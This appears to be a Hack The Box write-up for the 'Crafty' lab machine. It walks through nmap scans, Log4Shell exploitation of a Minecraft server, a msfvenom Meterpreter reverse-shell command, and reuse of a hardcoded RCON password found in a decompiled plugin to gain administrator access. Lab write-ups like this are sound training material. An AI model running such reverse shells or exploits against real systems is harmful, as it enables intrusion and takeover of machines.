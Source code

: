 <h1 align="center"> Crafty </h1>

<p align="center">
    <a href="https://app.hackthebox.com/machines/587">
        <img src="images/Crafty.png" width="500">
    </a>
</p>

## Table of Contents

1. [Service Enumeration](#1-recon)
2. [Service analysis on TCP/80](#2-tcp-80)
3. [CVE-2021-44228](#3-ssti)
4. [Privilege Escalation](#4-user-to-root)
5. [Pwned Info](#pwned-info)

## 1. Recon

```bash
└─$ nmap -sC -sV -oA nmap/initial 10.10.11.249
Nmap scan report for 10.10.11.249
Host is up (0.064s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to http://crafty.htb
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 12 11:12:25 2024 -- 1 IP address (1 host up) scanned in 18.92 seconds
```

## 2. TCP-80

There is an active service on port 80 and, as you can see from the nmap output, it redirects us to *http://crafty.htb/*, so before connecting, we add, in `/etc/hosts`, *crafty.htb*.

<p align="center">
  <img src="images/home.png" />
</p>

Interestingly, on the page, is the name of a Minecraft server.

## 3. CVE-2021-44228

Expanding the search with nmap, I found another service on port 25565.

```bash
25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 1/100)
```

Doing some research, in relation to the name of the challenge, I found an article that deals with the [Log4Shell](https://www.radware.com/blog/security/threat-intelligence/2021/12/log4shell-critical-log4j-vulnerability/) vulnerability (CVE-2021-44228).

Searching for an exploit I found a [PoC](https://github.com/kozmer/log4j-shell-poc).

Having to connect to the Minecraft server, I started looking for some solutions and found [pyCraft](https://github.com/ammaraskar/pyCraft).

Having everything I need, I can have a shell.

<p align="center">
  <img src="images/rev.png" />
</p>

In *C:\Users\svc_minecraft\Desktop* there is the user flag.

## 4. User to ROOT

After a short search, I found a plugin.

<p align="center">
  <img src="images/plugin.png" />
</p>

To download it I opened a shell via `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4567 -f exe -o rev.exe` and then with *msfconsole*.

<p align="center">
  <img src="images/download.png" />
</p>

After decompiled, we can observe a file called *Playercounter*.

```java
package htb.crafty.playercounter;

import java.io.IOException;
import java.io.PrintWriter;
import net.kronos.rkon.core.Rcon;
import net.kronos.rkon.core.ex.AuthenticationException;
import org.bukkit.plugin.java.JavaPlugin;

public final class Playercounter extends JavaPlugin {
   public void onEnable() {
      Rcon rcon = null;

      try {
         rcon = new Rcon("127.0.0.1", 27015, "s67u84zKq8IXw".getBytes());
      } catch (IOException var5) {
         throw new RuntimeException(var5);
      } catch (AuthenticationException var6) {
         throw new RuntimeException(var6);
      }

      String result = null;

      try {
         result = rcon.command("players online count");
         PrintWriter writer = new PrintWriter("C:\\inetpub\\wwwroot\\playercount.txt", "UTF-8");
         writer.println(result);
      } catch (IOException var4) {
         throw new RuntimeException(var4);
      }
   }

   public void onDisable() {
   }
}
```

There is a password so I used it to open an administrator shell through [RunasCS](https://github.com/antonioCoco/RunasCs).

<p align="center">
  <img src="images/rev2.png" />
</p>

In *C:\Users\Administrator\Desktop* there is the root flag.

## Pwned Info

<p align="center">
    <a href="https://www.hackthebox.com/achievement/machine/805273/587">
        <img src="images/Pwned.png" width="600">
    </a>
</p>